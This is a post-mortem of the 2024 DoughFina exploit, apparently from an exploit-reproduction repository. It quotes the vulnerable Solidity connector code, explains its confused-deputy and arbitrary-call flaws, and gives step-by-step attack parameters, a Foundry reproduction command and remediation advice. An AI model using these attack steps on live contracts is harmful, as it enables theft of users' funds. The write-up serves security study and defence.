


# DoughFina Exploit — Permissionless Flash-Loan Connector Drains Any User's DSA

> One-line: A public, caller-unvalidated flash-loan "deleverage" connector lets anyone point its
> privileged `executeAction` / arbitrary-call machinery at **any** DoughFina smart account (DSA),
> withdraw that account's Aave collateral, and `transferFrom` it straight to the attacker.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do
> not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source:
> [contracts_connectors_ConnectorDeleverageParaswap.sol](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$1.81M (multiple victim DSAs drained; this PoC reproduces one DSA → **596.74 WETH** ≈ $1.78M at the fork block) |
| **Vulnerable contract** | `ConnectorDeleverageParaswap` (Connector ID 22) — [`0x9f54e8eAa9658316Bb8006E03FFF1cb191AafBE6`](https://etherscan.io/address/0x9f54e8eAa9658316Bb8006E03FFF1cb191AafBE6#code) |
| **Co-vulnerable** | `DoughDsa.executeAction` / `AaveActions.executeAaveAction` — trust the connector unconditionally |
| **Victim (this PoC)** | DoughDsa smart account — [`0x534a3bb1eCB886cE9E7632e33D97BF22f838d085`](https://etherscan.io/address/0x534a3bb1eCB886cE9E7632e33D97BF22f838d085) |
| **Collateral stolen** | 596.744648055377423623 WETH (Aave V3 aWETH position of the victim DSA) |
| **Attacker EOA** | [`0x67104175fc5fabbdb5a1876c3914e04b94c71741`](https://etherscan.io/address/0x67104175fc5fabbdb5a1876c3914e04b94c71741) |
| **Attacker contract** | [`0x11a8dc866c5d03ff06bb74565b6575537b215978`](https://etherscan.io/address/0x11a8dc866c5d03ff06bb74565b6575537b215978) |
| **Attack tx** | [`0x92cdcc732eebf47200ea56123716e337f6ef7d5ad714a2295794fdc6031ebb2e`](https://app.blocksec.com/explorer/tx/eth/0x92cdcc732eebf47200ea56123716e337f6ef7d5ad714a2295794fdc6031ebb2e) |
| **Chain / block / date** | Ethereum mainnet / 20,288,622 / July 12, 2024 |
| **Compiler** | Solidity `=0.8.24` (connector), test pragma `^0.8.10` |
| **Bug class** | Broken access control — caller validation that authenticates the *contract* but not the *operation* (confused deputy) + arbitrary external call with attacker-controlled target & calldata |

---

## TL;DR

DoughFina users each get their own **DSA** (DeFi Smart Account, a `DoughDsa` proxy) that holds their
Aave V3 position. A "deleverage" connector
([`ConnectorDeleverageParaswap`](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol),
Connector ID 22) is supposed to be invoked **through** a user's DSA so it can repay debt and unwind
collateral on that user's behalf.

The fatal mistake is that the connector exposes a fully **public** entry point —
[`flashloanReq(...)`](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L111-L114)
— that:

1. takes an Aave flash loan and re-enters itself via `executeOperation`;
2. inside the callback, decodes the **caller-supplied** `data` to learn which **DSA address** to
   operate on and what **swap calls** to make
   ([:262](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L262));
3. calls `IDoughDsa(dsaAddress).executeAction(...)` to **withdraw that DSA's Aave collateral**
   ([:322-329](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L322-L329)); and
4. then performs an **arbitrary `.call()`** to an attacker-chosen contract with attacker-chosen
   calldata
   ([:331-345](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L331-L345)).

The downstream guards
([`DoughDsa.executeAction`](sources/DoughDsa_534a3b/contracts_DoughDsa.sol#L90-L92)
and
[`AaveActions.executeAaveAction`](sources/AaveActions_830926/contracts_extensions_AaveActions.sol#L52-L54))
only check `msg.sender == <the registered connector>`. Since the connector *is* the registered
connector and *is* the one calling, the check passes — for **any** victim DSA the attacker names.
This is a textbook confused-deputy: the access control authenticates *who is calling* (the
trusted connector) but never verifies *on whose authority* the connector is acting.

The attacker simply:

1. **Repays the victim DSA's Aave USDC debt** out of their own pocket (~938,566.83 USDC) so the
   victim's WETH collateral is fully unlocked.
2. **Calls the public `flashloanReq`** with a `swapData` payload that names the **victim's** DSA and
   contains, as the "ParaSwap" call, a plain `WETH.transferFrom(victim, attacker, 596.74 WETH)`.

The connector dutifully withdraws the victim's 596.74 WETH and then runs the attacker's
`transferFrom`, depositing the collateral into the attacker's contract. Net theft for this DSA:
**596.74 WETH**, at the cost of the (recoverable / flash-loanable) USDC used to repay debt.

---

## Background — what DoughFina does

DoughFina is a leverage/automation layer on top of Aave V3.

- **DoughIndex** ([`0x5390724Ca3b0880242C7b1eF08Eb9B1AbE698C0e`](https://etherscan.io/address/0x5390724Ca3b0880242C7b1eF08Eb9B1AbE698C0e),
  a `TransparentUpgradeableProxy`) is the registry: it maps connector IDs → connector addresses
  (`getDoughConnector`), tracks whitelisted tokens, and holds privileged automation addresses
  (`deleverageAutomation`, `aaveActionsAddress`, etc.).
- **DoughDsa** ([source](sources/DoughDsa_534a3b/contracts_DoughDsa.sol)) is the per-user smart
  account. Each user's Aave V3 position (aTokens, variable debt) lives **inside their DSA**. The DSA
  has two ways to act:
  - `doughCall(...)` — owner/automation-gated dispatch that `delegatecall`s a connector's
    `delegateDoughCall` ([:50-79](sources/DoughDsa_534a3b/contracts_DoughDsa.sol#L50-L79)).
  - `executeAction(...)` — a lower-level hook intended to be called *by the flash-loan connector*
    during a deleverage, which `delegatecall`s `AaveActions.executeAaveAction`
    ([:90-106](sources/DoughDsa_534a3b/contracts_DoughDsa.sol#L90-L106)).
- **AaveActions** ([source](sources/AaveActions_830926/contracts_extensions_AaveActions.sol),
  impl `0x830926…02b1`) is the library, run via `delegatecall` *in the DSA's context*, that performs
  the actual Aave `supply`/`borrow`/`repay`/`withdraw` for the DSA
  ([:52-84](sources/AaveActions_830926/contracts_extensions_AaveActions.sol#L52-L84)).
- **ConnectorDeleverageParaswap** ([source](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol),
  Connector ID 22) orchestrates deleveraging with an Aave flash loan and a (claimed ParaSwap) swap.

The intended, safe flow is: *owner/automation* → `DSA.doughCall(22,…)` →
`connector.delegateDoughCall` (which checks health factor) → `connector.deloopDebtPositions` →
`connector.flashloanReq` → Aave flash loan → `connector.executeOperation` → operate on the **same**
DSA. The connector even has a health-factor / liquidation gate in `delegateDoughCall`
([:86-93](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L86-L93)).

The bug is that the attacker **does not need the safe flow at all** — `flashloanReq` and
`executeOperation` are reachable directly, with no DSA ownership, no health-factor gate, and no
relationship between `msg.sender` and the DSA being acted on.

---

## The vulnerable code

### 1. `flashloanReq` is public and takes the operation parameters from the caller

```solidity
// ConnectorDeleverageParaswap.sol:111-114
function flashloanReq(bool _opt, address[] memory debtTokens, uint256[] memory debtAmounts,
        uint256[] memory debtRateMode, address[] memory collateralTokens,
        uint256[] memory collateralAmounts, bytes[] memory swapData) external {     // ← no access control
    bytes memory data = abi.encode(_opt, msg.sender, collateralTokens, collateralAmounts, swapData);
    IPool(address(POOL)).flashLoan(address(this), debtTokens, debtAmounts, debtRateMode,
                                   address(this), data, 0);
}
```

There is **no** `onlyDSA` / `onlyIndex` / `onlyAutomation` modifier. Anyone can call it. The only
thing tied to `msg.sender` is the encoded `data` blob — but `msg.sender` here is **not** used as the
DSA. The real DSA target comes from inside `swapData` later (see step 4).
[file:line](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L111-L114)

### 2. `executeOperation` validates only that *it called itself via Aave*

```solidity
// ConnectorDeleverageParaswap.sol:257-267
function executeOperation(address[] memory assets, uint256[] memory amounts, uint256[] memory premiums,
        address initiator, bytes calldata data) external override returns (bool) {
    if (initiator != address(this)) revert CustomError("not-same-sender");  // ← always true (it set itself)
    if (msg.sender != address(POOL))  revert CustomError("not-aave-sender"); // ← Aave is the caller

    FlashloanVars memory flashloanVars;
    (flashloanVars.opt, flashloanVars.dsaAddress, flashloanVars.collateralTokens,
     flashloanVars.collateralAmounts, flashloanVars.multiTokenSwapData) =
        abi.decode(data, (bool, address, address[], uint256[], bytes[]));      // ← dsaAddress is caller-controlled

    deloopInOneOrMultipleTransactions(flashloanVars.opt, flashloanVars.dsaAddress, assets, amounts,
        premiums, flashloanVars.collateralTokens, flashloanVars.collateralAmounts,
        flashloanVars.multiTokenSwapData);
    return true;
}
```

Both checks are trivially satisfied because `flashloanReq` set `address(this)` as initiator and Aave
is invoking the callback. **Neither check restricts `dsaAddress`.** The attacker fully controls it.
[file:line](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L257-L267)

### 3. It withdraws the target DSA's collateral via `executeAction`

```solidity
// ConnectorDeleverageParaswap.sol:322-329
function extractAllCollaterals(address dsaAddress, address[] memory collateralTokens,
        uint256[] memory collateralAmounts) private {
    for (uint i = 0; i < collateralTokens.length;) {
        IDoughDsa(dsaAddress).executeAction(DoughCore.CONNECTOR_ID22, collateralTokens[i], 0,
                                            collateralTokens[i], collateralAmounts[i], 1); // _actionId 1 = Deloop/withdraw
        IERC20(collateralTokens[i]).safeTransferFrom(dsaAddress, address(this), collateralAmounts[i]);
        unchecked { i++; }
    }
}
```

`dsaAddress` is the attacker-named **victim** DSA.
[file:line](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L322-L329)

### 4. It performs an arbitrary external call with attacker-controlled target + calldata

```solidity
// ConnectorDeleverageParaswap.sol:331-345
function deloopAllCollaterals(bytes[] memory multiTokenSwapData) private {
    FlashloanVars memory flashloanVars;
    for (uint i = 0; i < multiTokenSwapData.length;) {
        ( flashloanVars.srcToken, flashloanVars.destToken, flashloanVars.srcAmount,
          flashloanVars.destAmount, flashloanVars.paraSwapContract,
          flashloanVars.tokenTransferProxy, flashloanVars.paraswapCallData )
            = _getParaswapData(multiTokenSwapData[i]);

        IERC20(flashloanVars.srcToken).safeIncreaseAllowance(flashloanVars.tokenTransferProxy,
                                                             flashloanVars.srcAmount);
        (flashloanVars.sent, ) = flashloanVars.paraSwapContract.call(flashloanVars.paraswapCallData); // ⚠️ ARBITRARY CALL
        if (!flashloanVars.sent) revert CustomError("ParaSwap deloop failed");
        unchecked { i++; }
    }
}
```

`paraSwapContract` and `paraswapCallData` are decoded directly from the caller's `swapData`. There is
**no allowlist** of `paraSwapContract` (it is not constrained to a real ParaSwap router) and **no
validation** of the calldata. The attacker passes `paraSwapContract = WETH` and
`paraswapCallData = transferFrom(victimDSA, attacker, 596.74e18)` — a clean theft.
[file:line](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol#L340)

### 5. The "guard" that should have stopped it — but doesn't

```solidity
// DoughDsa.sol:90-92
function executeAction(uint256 _connectorId, address _tokenIn, uint256 _inAmount,
        address _tokenOut, uint256 _outAmount, uint256 _actionId) external payable {
    address _connector = IDoughIndex(doughIndex).getDoughConnector(_connectorId);
    if (msg.sender != address(this) && msg.sender != _connector)
        revert CustomError("Caller not owner or DSA");          // ← passes: msg.sender IS the connector
    ...
    aaveActions.delegatecall(abi.encodeWithSignature("executeAaveAction(...)", ...));
}
```

```solidity
// AaveActions.executeAaveAction (runs via delegatecall in the DSA):52-54
address _connectorFlashloan = IDoughIndex(doughIndex).getDoughConnector(_connectorId);
if (msg.sender != address(this) && msg.sender != _connectorFlashloan)
    revert CustomError("Actions caller not DSA");               // ← also passes (delegatecall preserves msg.sender = connector)
```

Both checks confirm the *caller is the registered connector*. They never confirm that the connector
was authorized to touch **this** DSA. Because the connector's own front door (`flashloanReq`) is
open to the world, "the caller is the connector" provides **zero** real authorization.
[DoughDsa:90-92](sources/DoughDsa_534a3b/contracts_DoughDsa.sol#L90-L92) ·
[AaveActions:52-54](sources/AaveActions_830926/contracts_extensions_AaveActions.sol#L52-L54)

---

## Root cause — why it was possible

The protocol's authorization model assumes a single, controlled call path
(`owner → DSA.doughCall → connector → DSA.executeAction`). Every downstream guard is written for
*that* path: "only the connector may call `executeAction`". But the connector itself never enforces
the front of that path. Concretely:

1. **No authentication on `flashloanReq` / `executeOperation`.** The connector is a *permissionless
   deputy*. It will perform privileged DSA operations for whoever calls it.
2. **The DSA target is attacker-supplied, not derived from `msg.sender`.** Even the encoded
   `msg.sender` in `flashloanReq` is ignored as an authority; the operative `dsaAddress` is decoded
   from the caller's `swapData` payload inside `executeOperation`. So the attacker chooses the
   victim.
3. **Downstream guards authenticate the wrong principal.** `DoughDsa.executeAction` and
   `AaveActions.executeAaveAction` check `msg.sender == connector`, i.e., "is the caller the trusted
   deputy?" — never "did the *owner of this DSA* request this?". Classic confused deputy.
4. **An unrestricted arbitrary call.** `deloopAllCollaterals` calls
   `paraSwapContract.call(paraswapCallData)` with no allowlist and no selector restriction, giving
   the attacker a generic "make this contract do anything as itself" primitive — here used to
   `transferFrom` the freshly-withdrawn collateral out.

Any *one* of: gating `flashloanReq` to DSA owners/automation, binding the DSA target to a verified
caller relationship, or allowlisting the swap target, would have prevented the loss.

---

## Preconditions

- A victim DSA exists with Aave V3 collateral (here 596.74 aWETH).
- The victim's Aave debt can be neutralized so the collateral is withdrawable. The attacker pays it
  off directly via `aave.repay(USDC, 938_566_826_811, 2, victimDSA)` (Aave permits anyone to repay
  another account's debt). This capital is recoverable in the same flow / flash-loanable.
- The attacker funds the connector with the tiny flash-loan premium (6 USDC) so
  `flashloanReq(5 USDC)` can be repaid.
- No ownership, no health-factor degradation, no liquidation flag is required — the dangerous path
  bypasses the connector's `delegateDoughCall` health gate entirely.

---

## Attack walkthrough (on-chain numbers from the trace)

All figures are pulled directly from [output.txt](output.txt). Token0/decimals:
USDC = 6 decimals, WETH = 18 decimals.

| # | Step | Call | Concrete values (from trace) |
|---|------|------|------------------------------|
| 0 | Fund | `deal(USDC, attacker, 80M)` | attacker USDC = 80,000,000e6 ([:481 area](output.txt)) |
| 1 | Unlock victim collateral | `aave.repay(USDC, 938_566_826_811, 2, victimDSA)` | repays 938,566.826811 USDC of victim debt; `Repay` emitted, victim variable debt burned ([output.txt:60-125](output.txt)) |
| 2 | Pre-fund premium | `USDC.transfer(connector, 6_000_000)` | 6 USDC → connector ([output.txt:126-133](output.txt)) |
| 3 | Trigger exploit | `connector.flashloanReq(false, [USDC],[5e6],[0], [],[], swapData)` | takes 5 USDC Aave flash loan ([output.txt:134-146](output.txt)) |
| 4a | Callback — Deloop swapData[0] | `victimDSA.executeAction(22, USDC, 5e6, WETH, 596.744648e18, actionId=1)` | inside DSA: repay 5 USDC, **withdraw 596.744648055377423623 WETH** of victim aWETH; `Withdraw` emitted ([output.txt:179-314](output.txt)) |
| 4b | Theft — swapData[1] arbitrary call | `WETH.call( transferFrom(victimDSA, attacker, 596.744648e18) )` | 596.744648055377423623 WETH moved victimDSA → attacker (`Transfer` [output.txt:336-342](output.txt)) |
| 5 | Flash-loan repaid | connector repays 5 USDC + 2,500 wei premium | `FlashLoan` event premium = 2500 ([output.txt:470](output.txt)) |
| 6 | Final balance | `WETH.balanceOf(attacker)` | **596.744648055377423623 WETH** ([output.txt:480-484](output.txt)) |

The withdraw in step 4a and the theft in step 4b are the two halves of the same heist: the connector
*withdraws* the victim's collateral to the DSA, leaves it approved, and then the attacker's
"swap" *transfers it out*.

### Profit / loss accounting

| Item | Amount | Note |
|------|-------:|------|
| WETH stolen from victim DSA | **+596.744648055377423623 WETH** | the victim's entire aWETH collateral |
| USDC spent repaying victim debt | −938,566.826811 USDC | recoverable / flash-loanable; in the live attack funded by a flash loan and netted against the freed position |
| USDC sent to connector (premium buffer) | −6 USDC | flash-loan premium (only 2,500 wei used) |
| Flash-loan premium | −0.0025 USDC | Aave 0.05% on 5 USDC |
| **Net (this DSA, PoC)** | **≈ +596.74 WETH** | repeated across victim DSAs for the reported ~$1.81M total |

The PoC asserts the attacker's ending WETH balance is exactly **596.744648055377423623 WETH**, equal
to the victim DSA's withdrawn collateral to the wei.

---

## Diagrams

### Sequence of the attack



### Authorization flow: intended vs. exploited

```mermaid
flowchart TD
    subgraph Intended["Intended (safe) path"]
        O["DSA Owner / Automation"] -->|"doughCall(22)"| D1["DoughDsa.doughCall<br/>checks msg.sender == owner/automation"]
        D1 -->|"delegatecall"| DC["connector.delegateDoughCall<br/>checks health factor / liq flag"]
        DC --> FR1["flashloanReq -> executeOperation<br/>operates on OWN DSA"]
    end

    subgraph Exploited["Exploited path (this hack)"]
        AT["Anyone (attacker)"] -->|"direct call, NO AUTH"| FR2["connector.flashloanReq(...)"]
        FR2 --> EO["executeOperation<br/>initiator==self, msg.sender==Pool (both trivially true)"]
        EO -->|"dsaAddress decoded from attacker swapData"| EX["executeAction on VICTIM DSA<br/>guard: msg.sender == connector PASSES"]
        EX --> AC["deloopAllCollaterals<br/>arbitrary call: WETH.transferFrom(victim, attacker)"]
        AC --> LOSS(["Victim collateral stolen"])
    end

    style FR2 fill:#fff3e0,stroke:#ef6c00
    style EX fill:#ffcdd2,stroke:#c62828,stroke-width:2px
    style AC fill:#ffcdd2,stroke:#c62828,stroke-width:2px
    style LOSS fill:#ffcdd2,stroke:#c62828,stroke-width:2px
    style DC fill:#c8e6c9,stroke:#2e7d32
```



### Victim DSA state evolution (Aave position)



---

## Why each magic number

- **`aave.repay(USDC, 938_566_826_811, 2, victimDSA)`** — 938,566.826811 USDC is (slightly above)
  the victim DSA's variable USDC debt at the fork block; repaying it removes the borrow that was
  keeping the 596.74 WETH collateral locked under Aave's health-factor check. Mode `2` = variable.
- **`USDC.transfer(connector, 6_000_000)`** — 6 USDC, a buffer for the Aave flash-loan premium
  (the connector must end the callback holding `amount + premium`; only 2,500 wei premium was
  actually charged on the 5 USDC loan).
- **`debtAmounts = [5_000_000]` (5 USDC flash loan)** — a token-sized loan whose only purpose is to
  trigger the `executeOperation` callback where the real logic (withdraw + arbitrary call) runs.
- **`swapData[0]` → `executeAction(22, USDC, 5e6, WETH, 596_744_648_055_377_423_623, actionId=1)`**
  — actionId 1 (Deloop): repay 5 USDC into the victim's Aave account and **withdraw 596.744648 WETH**
  collateral. `destAmount` = the victim's full aWETH balance.
- **`swapData[1]` paraSwapContract = WETH, calldata = `transferFrom(victim, attacker, 596.744648e18)`
  (selector `0x23b872dd`)** — the arbitrary call that moves the just-withdrawn collateral out of the
  DSA into the attacker. The DSA had approved the connector this WETH during the withdraw step, so
  the connector-initiated `transferFrom` succeeds.

---

## Remediation

1. **Authenticate the front door.** `flashloanReq` (and any externally-reachable deleverage entry)
   MUST verify the caller is an authorized DSA / the DoughIndex automation, and MUST derive the DSA
   being operated on from that authenticated caller — never from caller-supplied `swapData`. e.g.
   `require(msg.sender == dsaAddress || msg.sender == doughIndex.deleverageAutomation())`, and pass
   `dsaAddress = msg.sender`.
2. **Bind the operation to its principal.** `DoughDsa.executeAction` /
   `AaveActions.executeAaveAction` should not treat "caller is the registered connector" as
   sufficient authorization. Require the action to carry proof that *this DSA's owner/automation*
   initiated it (e.g., a per-DSA nonce/flag set on `doughCall` and cleared after, or a transient
   "in-flight deleverage for me" marker the DSA checks).
3. **Eliminate the unrestricted external call.** `deloopAllCollaterals` must allowlist
   `paraSwapContract` to the real ParaSwap router(s) (the Augustus swapper) and reject arbitrary
   targets. Never `.call()` an arbitrary address with arbitrary calldata from a contract that holds
   or can move user funds. Validate the swap selector and decode/verify the swap parameters
   (src/dst tokens, recipient) instead of forwarding opaque bytes.
4. **Constrain token movement to the originating DSA.** Any collateral withdrawn during deleverage
   should be returned to (or supplied back into) the *same* DSA, with treasury/recipient addresses
   restricted to protocol-owned addresses — not derived from attacker-controlled swap payloads.
5. **Defense in depth.** Re-enable and enforce the health-factor / liquidation gate on every path
   that can move DSA funds (currently only in `delegateDoughCall`, not in the
   `flashloanReq → executeOperation` path).

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`).

```bash
_shared/run_poc.sh 2024-07-DoughFina_exp -vvvvv
```

- **RPC:** a mainnet **archive** endpoint is required (fork block 20,288,622). The Infura keys
  shipped in `foundry.toml` intermittently returned `-32603 Internal error` / `401` on historical
  state at this block; `foundry.toml` is set to `https://eth.drpc.org`, which served the block
  reliably. If drpc rate-limits, retry or swap to another archive endpoint.
- **Result:** `[PASS] testExploit()`, attacker ends with **596.744648055377423623 WETH**.

Expected tail:

```
Ran 1 test for test/DoughFina_exp.sol:ContractTest
[PASS] testExploit() (gas: 848592)
  [End] Attacker WETH balance after exploit: 596.744648055377423623

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

## Sources downloaded

| Contract | Address | Path |
|---|---|---|
| ConnectorDeleverageParaswap (vulnerable) | `0x9f54e8…aFBE6` | [sources/ConnectorDeleverageParaswap_9f54e8](sources/ConnectorDeleverageParaswap_9f54e8/contracts_connectors_ConnectorDeleverageParaswap.sol) |
| DoughDsa (victim account) | `0x534a3b…d085` | [sources/DoughDsa_534a3b](sources/DoughDsa_534a3b/contracts_DoughDsa.sol) |
| AaveActions (delegatecall lib) | `0x830926…02b1` | [sources/AaveActions_830926](sources/AaveActions_830926/contracts_extensions_AaveActions.sol) |
| DoughIndex (registry proxy) | `0x539072…8C0e` | [sources/TransparentUpgradeableProxy_539072](sources/TransparentUpgradeableProxy_539072) |
| Aave V3 Pool (proxy) | `0x8164Cc…0bFcb` | [sources/InitializableImmutableAdminUpgradeabilityProxy_8164Cc](sources/InitializableImmutableAdminUpgradeabilityProxy_8164Cc) |

*Reference: BlockSec / CertiK alerts on the DoughFina exploit (Ethereum, ~$1.81M), July 12 2024.*
